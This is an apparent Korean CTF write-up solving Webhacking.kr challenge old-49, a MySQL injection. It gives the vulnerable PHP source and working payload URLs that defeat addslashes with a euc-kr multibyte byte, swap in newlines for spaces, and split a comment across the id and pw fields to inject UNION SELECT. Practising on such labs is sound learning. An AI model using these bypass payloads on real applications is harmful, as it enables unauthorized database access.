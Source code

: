 ```yaml
---
title: ["[Webhacking.kr] old-49 (sqli - 45)"]
date: 2024-11-01 09:00:00 +0900
categories: [writeup, webhacking.kr]
tags: [web, sqli, mysql]
---
```


```php
<?php
  if($_GET['id'] && $_GET['pw']){
    $db = dbconnect();
    $_GET['id'] = addslashes($_GET['id']); 
    $_GET['pw'] = addslashes($_GET['pw']);
    $_GET['id'] = mb_convert_encoding($_GET['id'],'utf-8','euc-kr');
    foreach($_GET as $ck) if(preg_match("/from|pw|\(|\)| |%|=|>|</i",$ck)) exit();
    if(preg_match("/union/i",$_GET['id'])) exit();
    $result = mysqli_fetch_array(mysqli_query($db,"select lv from chall50 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')"));
    if($result){
      if($result['lv']==1) echo("level : 1<br><br>");
      if($result['lv']==2) echo("level : 2<br><br>");
    } 
    if($result['lv']=="3") solve(50);
    if(!$result) echo("Wrong");
  }
?>
```

이번 문제는 old-45와 유사해보인다.  

```sql
select lv from chall50 where id='{$_GET['id']}' and pw=md5('{$_GET['pw']}')
```  
마찬가지로, `id`에 인젝션을 해야된다.  

```sql
select lv from chall50 where id='0' or lv=3 #' and pw=md5('123')
```
이렇게 동작시키면 되겠다.  

`'`에 대한 `addslashes()`함수의 동작은 old-45의 방법을 사용하면 되고,  

`(`, ` ` 이 사용이 안되므로 `%0a`를 사용해서 공백 필터를 우회할 수 있다.  

```
?id=1%c7'or%0alv%0alike%0a1%23&pw=123
```
해당 쿼리는 `level : 1`을 응답하는데,  

```
?id=1%c7'or%0alv%0alike%0a3%23&pw=123
```
lv=3인 쿼리는 `Wrong` 응답이 온다.

DB에 `lv=3`인 데이터가 없다는 뜻이다.  
데이터가 없을 때는 `union`으로 값을 넣어야되는데,  
`id`에는 `union`이 필터링되어 있다.  

즉, 인젝션 포인트가 `id`가 아니라 `pw`이다.  

`md5()`함수가 동작하지 않도록 하려면, `id`에서부터 쭉 주석처리를 하면 된다.  

```sql
select lv from chall50 where id='0'/*' and pw=md5('*/union select 3#')
```

```
?id=1%c7'%2f%2a&pw=%2a%2funion%0aselect%0a3%23
```